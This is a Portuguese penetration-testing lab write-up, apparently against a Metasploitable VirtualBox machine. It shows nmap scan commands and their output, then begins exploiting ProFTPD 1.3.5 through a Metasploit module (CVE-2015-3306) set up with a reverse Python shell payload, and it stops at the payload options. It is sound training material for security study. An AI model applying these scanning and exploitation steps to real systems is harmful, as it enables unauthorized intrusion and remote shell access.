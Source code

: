 Comando utilizado: `nmap -sS -p- -sV -T4 -v 192.168.0.207`

```bash
Nmap scan report for 192.168.0.207
Host is up (0.00051s latency).
Not shown: 65524 filtered tcp ports (no-response)
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
3500/tcp open   http        WEBrick httpd 1.3.1 (Ruby 2.3.8 (2018-10-18))
6697/tcp open   irc         UnrealIRCd
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
MAC Address: 08:00:27:42:51:79 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts: 127.0.0.1, UBUNTU, irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


Varredura de vulnerabilidades com `nmap`:


Comando: `nmap -sV --script vuln -p 21,22,80,445,631,3306,3500,6697,8080 -oN metasploitable_vulns.txt 192.168.0.207`


[Resultado do comando](/doc/nmap.md)


## 3. Exploração

### ProFTPD

Para obter acesso inicial à máquina alvo, exploramos uma vulnerabilidade no serviço ProFTPD (versão 1.3.5) utilizando o módulo do Metasploit `exploit/unix/ftp/proftpd_modcopy_exec`, que explora a falha identificada como CVE-2015-3306.

**Configuração do Módulo**  
  

```console
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.0.207    yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                         ng-metasploit/basics/using-metasploit.html
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
```